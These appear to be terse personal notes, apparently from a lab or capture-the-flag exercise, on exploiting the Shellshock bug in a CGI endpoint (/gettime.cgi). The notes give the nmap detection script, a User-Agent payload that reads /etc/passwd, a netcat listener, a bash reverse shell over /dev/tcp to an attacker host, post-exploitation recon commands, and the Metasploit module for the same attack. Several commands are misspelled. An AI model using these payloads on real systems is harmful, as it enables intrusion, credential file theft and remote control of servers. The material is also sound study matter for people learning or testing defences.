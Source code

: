- viwe soruce of website to check end point 
- nmap script --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"
- burpsuite
- intercept site 
- change useragent with vulnerability 
- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
- on attacker machine nc -lvnp 1234
- connect listner in our machine into host via useragent
- 'bash -i>&/dev/tcp/LHOST/LPORT 0>&1'
- cat /etc/*issue 
- whami
- uname -a


another way metaspploit framework
- search shellshock
- apache_mod_cgi_bash_env_exec
- set rhosts and uri path 
- 